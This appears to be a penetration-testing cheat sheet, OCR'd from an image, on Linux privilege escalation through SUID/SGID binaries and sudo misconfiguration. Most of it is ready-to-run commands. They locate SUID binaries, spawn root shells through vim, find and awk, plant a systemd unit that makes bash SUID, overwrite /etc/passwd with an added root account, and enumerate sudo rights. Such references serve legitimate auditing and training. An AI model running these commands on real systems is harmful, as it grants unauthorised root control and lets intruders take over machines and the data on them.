 ### SUID/SGID Binary Exploitation

#### SUID Binary Discovery
```bash
# Find SUID binaries
find / -perm -u=s -type f 2>/dev/null
find / -perm -4000 -type f 2>/dev/null

# Find SGID binaries
find / -perm -g=s -type f 2>/dev/null
find / -perm -2000 -type f 2>/dev/null

# Check for custom SUID binaries
find / -perm -u=s -type f 2>/dev/null | grep -v '/usr/bin\|/bin\|/usr/sbin\|/sbin'
```

#### GTFOBins Exploitation
```bash
# vim SUID exploitation
vim -c ':py import os; os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'

# find SUID exploitation
find . -exec /bin/sh -p \; -quit

# systemctl exploitation (if SUID)
echo '[Service]
Type=oneshot
ExecStart=/bin/sh -c "chmod +s /bin/bash"
[Install]
WantedBy=multi-user.target' > /tmp/root.service

systemctl link /tmp/root.service
systemctl enable --now /tmp/root.service

# awk SUID exploitation
awk 'BEGIN {system("/bin/sh")}'

# cp SUID exploitation (overwrite /etc/passwd)
echo "root2:$(openssl passwd -1 password):0:0:root:/root:/bin/bash" > /tmp/passwd
cp /tmp/passwd /etc/passwd
su root2
```

### Sudo Misconfiguration

#### Sudo Enumeration
```bash
# Check sudo permissions
sudo -l

# Check sudo version for known CVEs
sudo --version

# Check for NOPASSWD entries
sudo -l | grep NOPASSWD
```
